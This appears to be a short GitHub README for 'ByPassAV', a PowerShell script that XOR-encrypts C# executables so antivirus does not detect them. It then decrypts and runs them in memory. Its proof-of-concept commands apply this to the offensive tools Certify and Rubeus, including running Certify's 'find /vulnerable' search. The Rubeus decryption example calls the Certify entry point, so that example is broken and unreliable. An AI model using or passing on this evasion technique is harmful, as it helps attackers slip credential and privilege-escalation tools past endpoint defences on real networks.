 # ByPassAV


According to the documentation for [Certify](https://github.com/GhostPack/Certify) to be run from powershell.

This encrypts using XOR and the AV can be skipped.

> *Note: Only works with C# Executables*

## POC Certify
### Encrypt
```powershell
.\CypherExe.ps1 -ExecutablePath C:\temp\Certify.exe -Encrypt -OutPut c:\temp\certify.enc
```

### Decrypt

```powershell
.\CypherExe.ps1 -ExecutablePath C:\temp\Certify.enc -Decrypt
[Certify.Program]::Main("find /vulnerable".split())
```

## POC Rubeus
### Encrypt
```powershell
.\CypherExe.ps1 -ExecutablePath C:\temp\Rubeus.exe -OutPut C:\temp\rubeus.enc -Encrypt
```
### Decrypt

```powershell
.\CypherExe.ps1 -ExecutablePath C:\temp\rubeus.enc -Decrypt
[Certify.Program]::Main("find /vulnerable".split())
```